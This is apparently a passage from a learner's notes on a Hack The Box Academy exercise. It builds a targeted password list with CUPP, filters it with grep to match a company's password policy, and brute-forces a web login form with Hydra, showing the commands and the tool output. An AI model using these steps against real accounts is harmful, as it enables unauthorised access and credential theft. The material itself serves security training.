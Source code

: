 ```shell
[+] Now making a dictionary...
[+] Sorting list and removing duplicates...
[+] Saving dictionary to jane.txt, counting 46790 words.
[+] Now load your pistolero with jane.txt and shoot! Good luck!
```

We now have a generated username.txt list and jane.txt password list, but there is one more thing we need to deal with. CUPP has generated many possible passwords for us, but Jane's company, AHI, has a rather odd password policy.

- Minimum Length: 6 characters
- Must Include:
    - At least one uppercase letter
    - At least one lowercase letter
    - At least one number
    - At least two special characters (from the set `!@#$%^&*`)

As we did earlier, we can use grep to filter that password list to match that policy:

```shell
gitblanc@htb[/htb]$ grep -E '^.{6,}$' jane.txt | grep -E '[A-Z]' | grep -E '[a-z]' | grep -E '[0-9]' | grep -E '([!@#$%^&*].*){2,}' > jane-filtered.txt
```

This command efficiently filters `jane.txt` to match the provided policy, from ~46000 passwords to a possible ~7900. It first ensures a minimum length of 6 characters, then checks for at least one uppercase letter, one lowercase letter, one number, and finally, at least two special characters from the specified set. The filtered results are stored in `jane-filtered.txt`.

Use the two generated lists in Hydra against the target to brute-force the login form. Remember to change the target info for your instance.

```shell
gitblanc@htb[/htb]$ hydra -L usernames.txt -P jane-filtered.txt IP -s PORT -f http-post-form "/:username=^USER^&password=^PASS^:Invalid credentials"

Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these * ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-09-05 11:47:14
[DATA] max 16 tasks per 1 server, overall 16 tasks, 655060 login tries (l:14/p:46790), ~40942 tries per task
[DATA] attacking http-post-form://IP:PORT/:username=^USER^&password=^PASS^:Invalid credentials
[PORT][http-post-form] host: IP   login: ...   password: ...
[STATUS] attack finished for IP (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-09-05 11:47:18
```

Once Hydra has completed the attack, log into the website using the discovered credentials and retrieve the flag.

>[!Example]
>The academy exercise for this section
